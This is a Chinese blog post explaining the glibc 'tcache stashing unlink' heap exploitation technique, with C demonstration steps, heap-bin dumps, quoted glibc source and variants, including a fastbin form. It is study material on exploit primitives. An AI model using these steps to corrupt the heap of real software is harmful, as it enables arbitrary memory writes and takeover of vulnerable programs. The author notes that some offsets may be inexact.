





tcache stashing unlink 记录
我觉得二进制安全人员对攻防术语命名真的规范一点了，百分之八十都是很烂的名字。什么 house of xxx，根本体现不出本质，甚至驴头不对马嘴，真的很没有想象力哎。
场景
要求：可以进行复写 freed chunk 的内容，最常见的就是 Use After Free，如下面的代码
结果：Write a libc addr to wherever we want && Create a fake chunk wherever we need
a = malloc(0x20);
free(a);
a[1] = want_address;
比如上面的代码，我可以复写某个 freed chunk 中的内容。在以前，是直接修改 a->fd = want_address，然后两次 malloc(0x20) 就得到数据了。这个也叫 tcache poisoning，但由于 safe-linking 的机制，现在改 fd 需要知道 heap 地址才可以。
原理说明
本质上的思路是：既然我手动修改 fd 需要 heap 地址；那有没有什么办法把恶意块自动地放入到 tcache 中？ 所以寻找源码，有没有往 tcache 中放东西的操作？有，stash 机制。
stash 是针对 tcache 的机制，当我们从非 tcache bin 中拿数据时，会把这个堆块链剩下的块尽可能放到 tcache 中。
👉 截至 glibc2.41，翻阅源代码，只有处理 fastbin 和 smallbin 会有 stash 操作。
正确的尝试
这里直接说正确的做法。使用了 calloc 进行操作，calloc 和 malloc 不同，它不用 tcache，正确做法如下。
第一步，首先申请九个块，然后释放七个填满 tcache，剩下两个则释放到了 unsorted bin 中。注意释放到 unsorted bin 中的两个块不能是紧挨着的，不然就合并了。
for(int i = 0;i < 9;i++){
chunk_lis[i] = (unsigned long*)malloc(0x90);
}
for(int i = 3;i < 9;i++){
free(chunk_lis[i]);
}
free(chunk_lis[1]); // last tcache bin
free(chunk_lis[0]);
free(chunk_lis[2]);
Tcachebins[idx=8, size=0xa0, count=7] ← Chunk1(addr=0x555555559340) ←
Chunk8(addr=0x5555555597a0) ← Chunk7(addr=0x555555559700) ←
Chunk6(addr=0x555555559660) ← Chunk5(addr=0x5555555595c0) ←
Chunk4(addr=0x555555559520) ← Chunk3(addr=0x555555559480)
unsorted_bins[0]: fw=0x5555555593d0, bk=0x555555559290
→ Chunk2(addr=0x5555555593e0, size=0xa0) → Chunk0(addr=0x5555555592a0, size=0xa0)
第二步，把 unsorted bin 转移到 small bin 中，方式是申请一个大块，unsorted bin 中如果没有符合的空闲块，那么会顺手处理 unsorted bin 中的空闲块。
malloc(0xa0);
Tcachebins[idx=8, size=0xa0, count=7] ← Chunk1(addr=0x555555559340) ←
Chunk8(addr=0x5555555597a0) ← Chunk7(addr=0x555555559700) ←
Chunk6(addr=0x555555559660) ← Chunk5(addr=0x5555555595c0) ←
Chunk4(addr=0x555555559520) ← Chunk3(addr=0x555555559480)
Smallbins[9]: fw=0x5555555593d0, bk=0x555555559290
→ Chunk2(addr=0x5555555593e0, size=0xa0) → Chunk0(addr=0x5555555592a0, size=0xa0)
第三步，清理 tcache 空间，这个攻击需要两个空间，所以我们申请两个块，在 tcache 中留两个空间出来：
malloc(0x90);
malloc(0x90);
Tcachebins[idx=8, size=0xa0, count=7] ← Chunk7(addr=0x555555559700) ←
Chunk6(addr=0x555555559660) ← Chunk5(addr=0x5555555595c0) ←
Chunk4(addr=0x555555559520) ← Chunk3(addr=0x555555559480)
Smallbins[9]: fw=0x5555555593d0, bk=0x555555559290
→ Chunk2(addr=0x5555555593e0, size=0xa0) → Chunk0(addr=0x5555555592a0, size=0xa0)
第四步，修改 Chunk2 指向的内容，这里就是攻击的要求：需要 Use After Free，这里的 chunk2 已经 free 在 smallbins 中了，但我们还有对应的变量，可以写入内容，我们改写：
chunk_list[2][1] = (unsigned long)want_addr;
实际上修改的是 bk 指针，如下图所示。注意 chunk_list[2] 指向的是数据区（变量始终指向的是数据），所以偏移一个单位就是 bk 指针。同时也要注意我们不能修改 fd 指针。


第五步，使用 calloc，这里就是精华。此时 calloc 不会像 malloc 检查 tcache 是否有，所以最终会从 small bin 中拿。双向链表是按照 bk 拿数据（FIFO），所以 chunk0 走了。
拿走之后，开始 stash 操作，我们来看现在的空间：

stash 也是通过 bk 来的，由于 tcache 还有两个块，所以 chunk2 和 want 都放入了 tcache 中，最终就是：
Tcachebins[idx=8] ← Want ← Chunk2 ← Chunk6 ← Chunk5 ← Chunk4 ← Chunk3
回顾上面的操作，本质上 stash 在 unlink 的时候没有做完整性检查：
/* While bin not empty and tcache not full, copy chunks over. */
while (tcache->counts[tc_idx] < mp_.tcache_count && (tc_victim = last (bin)) != bin)
{
if (tc_victim != 0)
{
bck = tc_victim->bk;
set_inuse_bit_at_offset (tc_victim, nb);
if (av != &main_arena)
set_non_main_arena (tc_victim);
bin->bk = bck;
bck->fd = bin;
tcache_put (tc_victim, tc_idx);
}
}
但这里有一个注意点，上面的示意图也标注了，Want 中的 bk 不应该为 0！至少需要是一个可写的地址。因为在解链 want 的时候，有 bck->fd = bin，这里的 bck 就是 want->bk，所以这里一定要是合法地址才可以！！！
其实这一步中，我们已经达成一个目标：向某个地址写入一个 libc 地址。是在解 chunk2 的时候，解链操作有 bck->fd=bin，这里的 bck 是 Want，而 bin 是 smallbin 头部；所以我们相当于向 want+0x10 写入了 smallbin 某个头部的地址。（偏移量不严谨，不一定对）
第六步，一次 malloc，从而获取了 want 的空间块。这个就达到控制块的目的，更强了。
思考一：是否可以用 fd
很简单，因为解链操作都是用的 bk，如下图所示，如果修改 fd，stash 的时候根本不会把 want 放到 tcache 中。

思考二：是否可以用其他 bin
由于截至到 glibc2.41，只有处理 fastbin 和 smallbin 会有 stash 操作。所以这个其实就是问能否使用 fastbin？
但基本不行，因为从 fastbin 解除链接有如下操作：
/* While bin not empty and tcache not full, copy chunks. */
while (tcache->counts[tc_idx] < mp_.tcache_count && (tc_victim = *fb) != NULL)
{
if (__glibc_unlikely (misaligned_chunk (tc_victim)))
malloc_printerr ("malloc(): unaligned fastbin chunk detected 3");
if (SINGLE_THREAD_P)
*fb = REVEAL_PTR (tc_victim->fd);
else
{
REMOVE_FB (fb, pp, tc_victim);
if (__glibc_unlikely (tc_victim == NULL))
break;
}
tcache_put (tc_victim, tc_idx);
}
在 while 语句中，每次的 tc_victim 是从 *fd 而得来；而下一个 *fd 则是通过 REVEAL_PTR(tc_victim->fd) 得来，这是 safe-linking 那边的操作。
所以本质上就是 fd 指针用的是 safe-linking，所以和 tcache poisoning 遇到的问题一样，我们必须要知道 heap 地址才可以，否则就会在解链失效。而使用 smallbin 可以的原因就是双向解链没有使用 safe-linking 的机制，所以可以。
Update：无意中居然引申了这种攻击，没错，如果能知道 heap 地址，这种攻击是可行的，并且可以不用 calloc 来做（见思考四）。
思考三：为什么 tcache 一定要留两个空间
首先如果留有一个空间，我们没办法控制最终的 Want 块。当然如果我们真的只能留有一个空间，我们还是可以做到 Write a libc addr to wherever we want，因为把 Chunk2 从 smallbin 取出的时候，会让 bck->fd = bin，这里 bck 是 Want 块，而 bin 是 smallbin 头部地址。
// 留有两个块
Tcachebins[idx=8] ← Want ← Chunk2 ← Chunk6 ← Chunk5 ← Chunk4 ← Chunk3
// 留有一个块
Tcachebins[idx=8] ← Chunk2 ← Chunk6 ← Chunk5 ← Chunk4 ← Chunk3 ← ChunkX
那如果留有不止两个空间，看思考四，本质上是一样的。
思考四：不用 calloc
似乎不用 calloc 绕过 tcache 也是可以的？
假如不绕过，因为 stash 是从 smallbin 中找到数据之后顺手做的，而第一步总是要从 tcache 中找，所以只能是：tcache 为空，而 smallbin 有。所以这样的操作呢：
前面还是一样，把 7 个块放入 tcache，2 个块放入 small 中；而之后做法不同：
- 之前的做法是做 2 次
malloc，让 tcache 留有 2 个空间 - 现在直接做 7 次
malloc，直接清空 tcache
此时再故技重施，修改 bk 指针，是不是还是可以？其实理论上是可以的。
在解除 Want 块的时候，解链需要进行 bck->fd=bin，这里的 bck 是 want->bk。所以我们之前说 want 块中的 bk 位置一定要是合法地址。
之前解除 want 块之后，由于 tcache 满了所以就不继续了。但如果我们释放不仅仅两个空间，所以会继续根据 bk 往下找，理论上如果 want->bk 的块中 bk 内容是合法地址，那依然可以 want->bk 放入 tcache 中。
然后依次反复，要求 bk 指向块的 bk 中的内容是合法地址。所以理论上，这样做是可以的，甚至可以得到一系列链，但是可能有点难度...
同理，思考三中的问题，如果 tcache 留有空间超过两个会怎么样。答案就是会继续往下找。
思考四的延申一
在上面的思考四中，需要 smallbin 中的 bk 一直是合法。由于我们不用 calloc，即必须要求是 tcache 之前是空的，所以意味着我们构造的 want 块，可以满足六七次解链操作，基本不可能。
但其实思维定势了！！凭什么 smallbin 只能有两个块？？之前是 free 两次到 smallbin 中，现在改成 free 七次呗。即构造出下面这样不就可以了，当然要注意这里面的块不能挨着，不然从 unsorted 到 small 的过程会合并。

思考四的延申二
同理，思考二中想要 fastbin，当时给出的结论是：因为修改的是 fd，所以需要 heap 地址来绕过 safe-linking。
那假设我们知道 hepa 地址了，按照上面的方式，直接使用 malloc 也是可以做的。这里使用不同类型的 bin 其实有一个比较含蓄巧妙的优劣势。
smallbin 的好处，或者说 fastbin 的坏处，很显然了：如果使用 fastbin，那么需要解决 safe-linking，即需要知道 heap 地址，而使用 smallbin 则不需要。本质是二者的解链有区别，smallbin 的 bk 没有使用 safe-linking。
那么使用 fastbin 有什么好处吗？有的，此时不用管 Want 块的 fd 是否是合法地址。因为 fastbin 是单向链，所以 stash 的时候是不断从头部取出，没有对 want->fd 指向的内容进行赋值的操作。而使用 smallbin 双向链表，有 bck->fd = bin 即 want->bk->fd = bin 这一操作，所以要求 Want 块的 bk 是合法地址。
其实这里就叫做 fastbin reverse into tcache...
2.41 后失效
那么作为 glibc 作者，如何防护这种攻击，一种思路是双向链表解链多加一些检查。而 2.41 之后，解决方式就更直接了：calloc 也检查 tcache... 思考四说的绕过 calloc 还能奏效。
所以我当时还以为 calloc 不用 tcache 是考虑到什么特殊因素，其实没啥... 具体链接：https://sourceware.org/bugzilla/show_bug.cgi?id=25183